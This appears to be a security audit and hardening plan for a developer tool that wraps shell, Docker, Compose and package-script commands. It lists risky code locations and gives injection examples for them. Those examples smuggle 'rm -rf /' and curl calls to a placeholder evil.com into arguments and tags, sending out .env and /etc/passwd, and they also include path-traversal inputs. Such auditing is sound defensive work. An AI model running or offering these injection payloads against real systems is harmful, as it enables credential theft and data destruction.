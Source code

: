 # Security Analysis and Hardening Plan

## Current Security Assessment

### ⚠️ High-Risk Vulnerabilities Identified

#### 1. **Unrestricted Command Execution**
- **Location**: `src/execution.ts:19` - `Bun.spawn()` executes arbitrary commands
- **Risk**: All tools use `executeCommand()` which can run any shell command
- **Impact**: Code injection, privilege escalation, system compromise

#### 2. **Docker Container Escape Vectors**
- **Location**: `src/docker-tools.ts:60-67` - `docker exec` with arbitrary commands
- **Risk**: Interactive shell access to containers with minimal validation
- **Impact**: Container escape, lateral movement, data exfiltration

#### 3. **Docker Compose Service Manipulation**
- **Location**: `src/compose-tools.ts:58-76` - Compose `exec` allows arbitrary commands
- **Risk**: Service takeover through command injection
- **Impact**: Production service compromise

#### 4. **Package.json Script Execution**
- **Location**: `src/package-tools.ts:34` - Executes any script from package.json
- **Risk**: Malicious scripts in compromised dependencies
- **Impact**: Supply chain attacks, credential theft

#### 5. **Automatic Doppler Integration**
- **Location**: `src/doppler.ts:155` - Auto-wraps commands with sensitive env vars
- **Risk**: Credential exposure in command logs/output
- **Impact**: Secret leakage, unauthorized access

### 🔍 Specific Attack Vectors

#### Command Injection Examples
```bash
# Docker exec with malicious arguments
kit_docker { action: "exec", container: "app", args: ["; rm -rf /", "&&", "curl", "evil.com"] }

# Package script with injection
kit { script: "build; curl -X POST evil.com --data-binary @.env" }

# Docker build with malicious tag
kit_docker { action: "build", tag: "app; curl evil.com/exfiltrate --data-binary @/etc/passwd" }
```

#### Path Traversal Risks
```bash
# Compose file manipulation
kit_compose { action: "up", file: "../../../etc/passwd" }

# Working directory escape
kit { script: "test", cwd: "/etc" }
```
